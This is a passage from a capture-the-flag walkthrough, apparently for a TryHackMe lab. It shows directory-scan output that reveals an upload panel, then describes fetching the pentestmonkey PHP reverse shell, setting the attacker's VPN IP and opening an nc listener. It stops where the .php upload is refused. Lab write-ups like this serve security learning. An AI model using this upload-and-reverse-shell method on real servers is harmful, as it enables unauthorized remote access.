 ```
[11:11:01] 403 -  276B  - /.htaccessOLD2
[11:11:01] 403 -  276B  - /.htaccess.orig
[11:11:01] 403 -  276B  - /.html
[11:11:01] 403 -  276B  - /.htpasswd_test
[11:11:01] 403 -  276B  - /.htpasswds
[11:11:01] 403 -  276B  - /.httr-oauth
[11:11:03] 403 -  276B  - /.php
[11:11:32] 301 -  308B  - /css  ->  http://10.10.15.83/css/
[11:11:45] 200 -  463B  - /js/
[11:11:56] 301 -  310B  - /panel  ->  http://10.10.15.83/panel/
[11:11:56] 200 -  388B  - /panel/
[11:12:06] 403 -  276B  - /server-status
[11:12:06] 403 -  276B  - /server-status/
[11:12:16] 301 -  312B  - /uploads  ->  http://10.10.15.83/uploads/
[11:12:16] 200 -  404B  - /uploads/

Task Completed
```

Step 3 we find a hidden page or pannel to upload file

![image](https://github.com/user-attachments/assets/a5791bd9-2b57-42a5-9274-53fb2bce9a57)

![image](https://github.com/user-attachments/assets/390c5728-be75-4daa-82a1-83dd68b351c7)

It allow some types as i check thorugh by uploading like jpg, txt and png and .php is not allowed

![image](https://github.com/user-attachments/assets/0829c5f3-101f-4fda-bb22-16cedbe42a88)

Let Upload a php reverser-shell, im using [penttest monkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell)

![image](https://github.com/user-attachments/assets/19f28f5b-098b-41a4-b576-53322a3084ab)

download guide 
```
git clone https://github.com/pentestmonkey/php-reverse-shell
cd php-reverse-shell
nano php-reverse-shell.php 
```
![image](https://github.com/user-attachments/assets/dc7b1ca7-5c11-4d95-9aeb-8db32fb7de0e)

Replace this ip with your thm vpn ip 

and open another terminal and use nc to get reverse shell connection,
```
nc -lnvp 1234
```

Let upload a shell i rename as shell.php
![image](https://github.com/user-attachments/assets/1e8ee09a-173d-44bc-bee5-9c90655200c4)

As i upload it not permiting me to upload to .php format
